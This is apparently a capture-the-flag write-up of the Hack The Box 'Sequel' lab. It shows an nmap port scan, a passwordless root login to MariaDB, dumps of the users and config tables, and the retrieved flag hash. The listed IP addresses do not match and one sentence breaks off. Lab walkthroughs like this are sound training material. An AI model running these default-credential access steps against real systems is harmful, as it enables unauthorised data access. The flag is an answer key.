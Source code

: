 # Sequel
#startingpoint 
#veryeasy 
#sql 
#mariadb

### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are 65534 closed tcp ports (connection refused) and one open port, `mysql`, which is running a MySQL database service.
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 14:27 CET
Nmap scan report for 10.129.87.79
Host is up (0.054s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
```

### MYSQL
Since we found that there is a mysql database running we perform a research to check if there is any default credentials.
It seems that the default user could be root, so we try to access by running 

We try to connect to the MySQL database service using the default user (`root`) and the target IP address, the command looks like `mysql -u root -h $TARGET`. The output shows that the host is up and running. Once in we are able to list the databases using the `SHOW DATABASES;` command. We observe that there are four databases: `htb`, `information_schema`, `mysql`, and `performance_schema`
```
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,052 sec)
```
Of the 4 databases the one that catch our attention is htb because it seems like a custom one, so we select it using the `use htb;` command to gain access to its tables. We list the tables in the `htb` database using the `SHOW TABLES;` command. We observe that there are two tables: `config` and `users`.
```
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,055 sec)
```

We select all rows from the `users` table using the `SELECT * FROM users;` command. The output shows that there are four rows, each containing information about a user account.
```
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,045 sec)
```
We select all rows from the `config` table using the `SELECT * FROM config;` command. The output shows that there are seven rows, each containing information about a configuration setting.
```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,060 sec)
```
And we finally have found the flag value.